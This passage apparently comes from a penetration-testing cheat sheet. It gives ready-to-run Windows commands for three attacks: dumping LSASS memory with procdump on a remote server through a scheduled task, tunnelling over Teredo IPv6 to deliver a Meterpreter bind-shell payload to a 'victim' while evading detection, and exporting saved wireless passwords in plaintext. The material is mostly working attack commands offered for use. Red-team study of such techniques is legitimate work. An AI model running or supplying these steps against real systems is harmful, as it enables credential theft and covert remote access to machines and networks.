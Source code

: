### Process Dumping For Passwords
If you have access to a server and one of the user's usernames and passwords and can create shares on that computer,
you may be able to create a scheduled task which runs procdump.exe to dump all of the memory of the lsass process,
thus gaining access to all of the stored credentials on the targeted computer:

```
net use \\target server /user:DOM\username password
copy procdump.exe \\targetserver\c$
copy procdump.bat \\targetserver\c$
procdump.exe -ma lsass creds.dump
at \\targetserver 13:37 C:\procdump.bat
copy \\targetserver\c$\targetserver.dmp .
```

### Teredo IPv6 Bindshell
Creating a teredo tunnel to allow a remote victim to tunnel IPv6 packets over IPv4 may allow you to evade some
filter detection systems and extract information from a victim without triggering alerts on the target network.

In order to do this one needs to use a teredo server which will convert IPv4 packets to IPv6 packets and vice versa.
Several publicly available servers are available including:

* teredo.trex.fi
* teredo.remlab.net
* teredo-debian.remlab.net
* teredo.ngix.ne.kr
* win8.ipv6.microsoft.com (This may be shaky on Windows 7, so don't rely on it)

To set up a tunnel, issue the following commands:

```
netsh interface ipv6 install
netsh interface ipv6 teredo enterpriseclient
netsh interface ipv6 teredo set client teredo.trex.fi
msfpayload windows/meterpreter/bind_ipv6_tcp LPORT=5555 X > bind.exe
```

All we have to do at this point is upload the resulting bind.exe payload to the victim, execute it, and then set up
metasploit to connect to the public IPv6 address that the victim was assigned on the specified port (5555 in this example), and we should now be able to get a meterpreter shell using teredo tunneling :)

Further details are available at [http://www.room362.com/blog/2010/09/24/revenge-of-the-bind-shell/](http://www.room362.com/blog/2010/09/24/revenge-of-the-bind-shell/)

### Export Local Wireless Passwords (In Plaintext)
```
netsh wlan export profile key=clear
```
